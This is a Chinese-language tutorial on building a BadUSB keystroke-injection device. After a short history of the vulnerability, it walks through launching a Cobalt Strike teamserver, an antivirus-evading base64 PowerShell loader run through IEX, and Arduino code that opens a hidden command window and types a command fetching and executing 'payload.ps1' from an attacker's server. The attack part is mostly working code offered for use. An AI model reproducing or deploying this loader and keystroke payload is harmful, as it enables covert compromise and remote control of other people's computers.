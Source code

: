 BadUSB介绍

随着设备不断的升级改进，USB 能够连接到许多不同的设备，包括鼠标、键盘、相机、摄像头、无线网络设备等。但不幸的是，USB 的设计方式产生了这个 BadUSB 安全漏洞。
BadUSB 漏洞是由安全研究人员 Karsten Nohl 和 Jakob Lell 在 2014 年黑帽会议上首次发现并暴露出来的，这也就让USB安全和几乎所有和USB相关的设备（包括具有USB端口的电脑）都陷入相当危险的状态。
就狭义来说，BadUSB是指形似 U 盘的设备，内部的电路在上电之后会被系统识别为键盘，此时该设备内部的芯片开始与电脑进行键盘通讯，仿照人的输入习惯，来操作电脑，以此达到骇入电脑的目的。
 就广义来说，BadUSB是指一切会被电脑识别为 HID 设备的，外观却不像键盘的电子设备。现阶段有的 badusb 是形似数据线的，有的则是手机加定制内核，以发挥 BadUSB 的作用，更有甚者，将 BadUSB 开发为模块，可以嵌入任意的带 USB 接口的设备中。

准备工作

购买 badusb 、 烧录器 、 云服务器；共计开销大概二百五
①.在服务器中上传cs、screen，用于制作cs免杀马等
Default
sftp root@IP
ls
put \xxx\cs.zip
 
ssh root@IP
apt update
apt install unzip
unzip cs.zip
apt install default-jdk
cd cs
chmod 777 teamserver
sudo ./teamserver IP password
 
apt install screen
screen -S test

②.下载并安装开发环境Arduino
由于 Arduino 的易用性，现阶段最常用的 BadUSB 还是基于 Arduino 进行设计的
下载地址：https://www.arduino.cc/en/software （有Windows、Linux、Mac版本，PS：建议别下最新的）

③.通过 zading 软件在电脑上安装对应的烧录器驱动
首先需要让电脑识别到我们的BadUSB设备（PS：需要找老的type-a线，新的我试过去貌似都无法识别）

然后打开 zading 软件，点击 Options - List All Devices，找到我们的 usbasp
Driver设置为libusb0(v1.2.6.0)
USB ID 16C0 05DC
当其在设备管理器中显示为 libusb-win32 devices 设备时，就意味着安装好了烧录器驱动

④.下载并安装烧录工具 progisp

CS免杀操作

制作CS免杀马，将其base64编码处理一下
Default
Set-StrictMode -Version 2
 
$a1 = 'base64编码'
$a2 = 'base64编码'
$a3 = 'base64编码'
$a4 = 'base64编码'
$a5 = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($a1+$a2+$a3+$a4))
 
If ([IntPtr]::size -eq 8) {
  start-job { param($a) IEX $a } -RunAs32 -Argument $a5 | wait-job | Receive-Job
}
else {
  IEX $a5
}

接着把文件名改为全大写的，然后通过CS上传至我们的公网服务器上（攻击 – 钓鱼攻击 – 文件下载），实现全程无落地✈
然后将我们需要的操作搞成思路，形成最基础的想法，接着将思路写成代码，通过 Arduino 编译生成hex文件，最后利用工具 progisp 烧录到我们的BadUSB中
附上部分关键代码
Default
//payload
if (onetimeOrForever == 0)
{
  delay(1000);
  Keyboard.begin();//开始键盘通讯 
  delay(1500);//延时 
  Keyboard.press(KEY_LEFT_GUI);//win键 
  delay(500);
  Keyboard.press('r');//r键
  delay(500); 
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  delay(500);
  Keyboard.press(KEY_CAPS_LOCK);//利用开大写输小写绕过输入法
  Keyboard.release(KEY_CAPS_LOCK);
  Keyboard.println("CMD /t:01 /k @ECHO OFF && MODE CON:cols=15 lines=1");   //使用最小化隐藏cmd窗口
  //cmd /c start /minCMD /C START /MIN POWERSHELL -W HIDDEN
  delay(500);
  Keyboard.press(KEY_RETURN); 
  Keyboard.release(KEY_RETURN); 
  delay(1300);
  Keyboard.println("echo set-alias -name rookie -value Invoke-Expression;rookie(new-object net.webclient).downloadstring('http://IP/payload.ps1') | powershell -");
  Keyboard.press(KEY_RETURN); 
  Keyboard.release(KEY_RETURN); 
  Keyboard.press(KEY_CAPS_LOCK);//利用开大写输小写绕过输入法
  Keyboard.release(KEY_CAPS_LOCK);
  Keyboard.end();//结束键盘通讯
  
  delay(1000);
  Keyboard.begin();//开始键盘通讯 
  delay(1500);//延时 
  Keyboard.press(KEY_LEFT_GUI);//win键 
  delay(500);
  Keyboard.press('r');//r键
  delay(500); 
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  delay(500);
  Keyboard.press(KEY_CAPS_LOCK);//利用开大写输小写绕过输入法
  Keyboard.release(KEY_CAPS_LOCK);
  Keyboard.println("notepad.exe");    //打开记事本
  delay(500);
  Keyboard.println("                                   $$$$ ");
  delay(500);
  Keyboard.println("                               $$         $$");
  Keyboard.println("                               $$         $$");
  Keyboard.println("                               $$         $$");
  Keyboard.println("                               $$         $$");
  Keyboard.println("                               $$         $$");
  Keyboard.println("                               $$         $$");
  Keyboard.println("                        $$$$$$         $$$$$$");
  Keyboard.println("   $$$$$$     $$         $$         $$        $$$$");
  Keyboard.println("   $$         $$$$         $$         $$        $$    $$");
  Keyboard.println("   $$             $$         $$         $$        $$        $$");
  Keyboard.println("        $$        $$                                 $$         $$");
  Keyboard.println("          $$$    $$                                              $$");
  Keyboard.println("            $$                                                      $$");
  Keyboard.println("              $$$                                                  $$");
  Keyboard.println("                $$                                                  $$");
  Keyboard.println("                  $$$                                              $$");
  Keyboard.println("                    $$                                          $$$");
  Keyboard.println("                      $$$                                      $$");
  Keyboard.println("                        $$                                      $$");
  Keyboard.println("                          $$$                              $$$");
  Keyboard.println("                            $$                              $$");
  Keyboard.println("                            $$$$$$$$$$$$$$$$$$$$");
  delay(500);
  Keyboard.press(KEY_RETURN); 
  Keyboard.release(KEY_RETURN);
  Keyboard.press(KEY_CAPS_LOCK);//利用开大写输小写绕过输入法
  Keyboard.release(KEY_CAPS_LOCK);
  Keyboard.end();//结束键盘通讯